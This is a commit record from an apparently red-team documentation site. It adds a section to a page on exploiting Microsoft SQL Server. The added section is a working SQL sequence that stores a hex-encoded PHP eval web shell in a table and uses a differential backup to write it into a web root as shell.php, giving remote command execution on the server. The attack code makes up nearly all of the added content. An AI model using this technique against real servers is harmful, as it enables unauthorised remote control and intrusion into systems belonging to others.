

Before and after one commit to C1ph3rX13/C1ph3rX13.github.io, an MkDocs documentation site: the page built from docs/ReadTeam/Windows/Databases/MSSQL Exploit.md, in a window 1280 px wide and 900 px high, scrolled down 5810 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 6177 px from its top, so only the background shows below that.

Commit message:
Update MSSQL Exploit.md

````diff
--- a/docs/ReadTeam/Windows/Databases/MSSQL Exploit.md
+++ b/docs/ReadTeam/Windows/Databases/MSSQL Exploit.md
@@ -306,3 +306,34 @@
 -- 继续服务
 EXEC xp_servicecontrol 'CONTINUE', 'SessionEnv'
 ```
+
+### 差异备份
+
+```sql
+-- 1. 创建数据库
+CREATE DATABASE diff;
+GO
+
+-- 2. 使用该数据库
+USE diff;
+GO
+
+-- 3. 初始备份
+BACKUP DATABASE diff TO DISK = 'C:\diff.bak';
+GO
+
+-- 4. 创建表
+CREATE TABLE [dbo].[shell] ([cmd] [image]);
+GO
+
+-- 5. 插入数据
+-- WebShell 源码：<?php @eval($_GET['cmd']);?>
+-- WebShell Hex 编码：0x3c3f70687020406576616c28245f4745545b27636d64275d293b3f3e
+INSERT INTO [dbo].[shell] (cmd)
+VALUES (0x3c3f70687020406576616c28245f4745545b27636d64275d293b3f3e);
+GO
+
+-- 6. 差异备份到web目录
+BACKUP DATABASE diff TO DISK = 'C:\phpstudy_pro\WWW\shell.php' WITH DIFFERENTIAL, FORMAT;
+GO
+```
````
